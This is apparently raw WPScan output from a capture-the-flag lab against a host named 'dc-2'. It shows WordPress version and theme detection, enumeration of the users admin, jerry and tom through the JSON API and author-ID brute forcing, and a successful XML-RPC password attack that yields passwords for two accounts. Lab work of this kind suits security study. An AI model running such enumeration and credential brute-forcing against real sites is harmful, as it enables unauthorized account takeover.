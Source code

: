 ```
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-08-11T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing                                                            
[SUCCESS] - tom / parturient                                                              
Trying admin / the Time: 00:00:34 <===================> (645 / 645) 100.00% Time: 00:00:34
Trying admin / log Time: 00:00:34 <===================> (645 / 645) 100.00% Time: 00:00:34

```